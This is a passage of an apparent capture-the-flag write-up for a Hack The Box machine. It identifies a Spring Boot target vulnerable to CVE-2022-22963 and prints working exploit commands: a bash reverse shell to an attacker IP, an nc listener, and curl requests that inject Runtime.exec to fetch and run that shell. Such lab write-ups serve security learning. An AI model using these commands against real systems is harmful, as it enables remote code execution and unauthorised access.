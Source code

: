 ```html
	xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd">
	<modelVersion>4.0.0</modelVersion>
	<parent>
		<groupId>org.springframework.boot</groupId>
		<artifactId>spring-boot-starter-parent</artifactId>
		<version>2.6.5</version>
		<relativePath/> <!-- lookup parent from repository -->
	</parent>
	<groupId>com.example</groupId>
	<artifactId>WebApp</artifactId>
	<version>0.0.1-SNAPSHOT</version>
	<name>WebApp</name>
	<description>Demo project for Spring Boot</description>
	<properties>
		<java.version>11</java.version>
	</properties>
	<dependencies>
  ...
```

It took me a while here. I know the Spring Boot version and all the POMs. After some searching, I was able to find `cve-2022-22963` and this article explaining how to exploit it for remote execution: [https://sysdig.com/blog/cve-2022-22963-spring-cloud/](https://sysdig.com/blog/cve-2022-22963-spring-cloud/)

This seems like our ticket. After some trial and error with commands, I was able to use the following and gain a remote shell:

```html
# Local Setup
$ cat <<EOF >shell.sh
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.109/1337 0>&1
EOF
$ python -m http.server 8000
$ nc -lvnp 1337

# Requests
# Store the shell
$ curl -X POST -d 'POST' \
  -H "spring.cloud.function.routing-expression: T(java.lang.Runtime).getRuntime().exec('curl -o /tmp/shell http://10.10.14.109:8000/shell.sh')" \
  http://inject.htb:8080/functionRouter
# Execute it
$ curl -X POST -d 'POST' \
  -H "spring.cloud.function.routing-expression: T(java.lang.Runtime).getRuntime().exec('/bin/sh /tmp/shell')" \
  http://inject.htb:8080/functionRouter
```

Now I have access as `frank`:
